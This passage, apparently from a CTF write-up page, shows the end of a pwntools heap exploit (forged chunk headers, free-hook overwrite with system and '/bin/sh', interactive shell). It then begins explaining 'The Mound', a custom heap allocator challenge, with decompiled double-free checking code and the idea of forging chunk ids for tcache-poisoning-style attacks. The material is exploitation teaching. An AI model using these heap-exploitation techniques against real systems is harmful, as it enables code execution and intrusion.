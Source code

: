 ```python
gc()
payload = ''
payload += 'a'*0x38
payload += p64(0x21)
payload += 'AAAA'
payload += flat(heap+0x1850)
payload += 'BBBB'
payload += flat(0, 0x91, fh-8)

a(payload, '\xff333')
for i in range(2):
        a("/bin/sh\x00"+p64(system), '\xff444')
d(3)
gc()

r.interactive()
```

# The Mound
This is a self-made heap task. Each chunk has an id and is checked at alloc and free. You can also alloc chunks for glibc heap, but the chunk id will be 0, which will cause free to fail.

The code below is the function `find_id` that is first called during free. This function looks at everything on the list of ids, and if there are duplicate ids, treats them as double free and drops the program. Due to this effect, chunks with id 0 cannot be freed.

```c
void find_id(long param_1)

{
  int local_c;
  
  local_c = 0;
  while( true ) {
    if (0xfff < local_c) {
      return;
    }
    if (param_1 == *(long *)(&DAT_dead0000008 + (long)local_c * 8)) break;
    local_c = local_c + 1;
  }
  puts("Mound: Double free detected");
  exit(1);
}
```

However, if two chunks are adjacent to each other, you can forge the id and free it to connect the adjacent chunks to the free list. You can use this technique to create situations like tcache poisoning. If this is the glibc heap, you got AAW primitive with next two alloc, but it is not possible with this implementation.

When allocating chunks, first call the function `mmalloc`. Then the function `mcache_alloc` is called if the size is less than 0x18 and there are chunks in the free list. Otherwise, the function `top_chunk_alloc` will be called.
